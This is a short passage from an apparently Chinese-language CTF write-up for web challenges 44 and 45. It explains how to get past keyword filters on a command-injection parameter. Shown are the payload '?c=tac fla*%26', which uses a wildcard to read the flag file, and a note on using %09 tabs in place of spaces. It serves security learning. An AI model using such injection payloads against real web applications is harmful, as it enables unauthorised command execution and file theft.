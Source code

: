 
过滤了

```
;|cat|flag
```

构建命令

```
?c=tac fla*%26
```

得到flag

![image-20240120124739973](照片/image-20240120124739973.png)

------

#### web45

分析

![image-20240120124838873](照片/image-20240120124838873.png)

过滤了

```
\;|cat|flag
```

比上一题多过滤了;和空格，但是并没有影响，使用%09进行绕过，%09是tab的url编码

构建命令
